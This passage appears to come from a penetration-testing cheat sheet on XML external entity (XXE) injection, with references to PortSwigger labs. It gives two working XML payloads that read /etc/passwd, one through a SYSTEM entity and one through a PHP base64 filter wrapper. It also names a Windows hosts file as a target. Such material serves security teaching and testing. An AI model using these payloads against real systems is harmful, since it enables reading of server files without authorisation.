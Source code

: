 ![](<../images/image (870).png>)

### Read file

Lets try to read `/etc/passwd` in different ways. For Windows you could try to read: `C:\windows\system32\drivers\etc\hosts`

In this first case notice that SYSTEM "_**file:///**etc/passwd_" will also work.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

![](<../images/image (86).png>)

This second case should be useful to extract a file if the web server is using PHP (Not the case of Portswiggers labs)

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
